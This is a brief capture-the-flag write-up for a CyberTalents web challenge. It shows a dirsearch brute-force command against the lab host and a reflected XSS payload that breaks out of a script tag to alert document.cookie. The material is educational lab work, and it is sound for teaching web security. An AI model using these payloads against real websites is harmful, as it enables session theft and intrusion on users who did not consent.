



# Solve searching-for-the-cookie
#### https://cybertalents.com/challenges/web/searching-for-the-cookie


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6meg23gr7h8v4kj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

### Try XSS

onload=alert(1)

`http://wcamxwl32pue3e6meg23gr7h8v4kj6zqdkgxu639-web.cybertalentslabs.com/?s=onload%3Dalert(1)`

The parameter is reflected in:
```js
<script>var currentSearch = {'keyword':'you searched for: onload=alert(1)'};</script>
```
We need to end the frist script with `</script>` and start our payload

payload: `</script><script>alert("m_1337")</script>`



Dump cookie `</script><script>alert(document.cookie)</script>`



>Find More on ==> github.com/MedhatHassan 
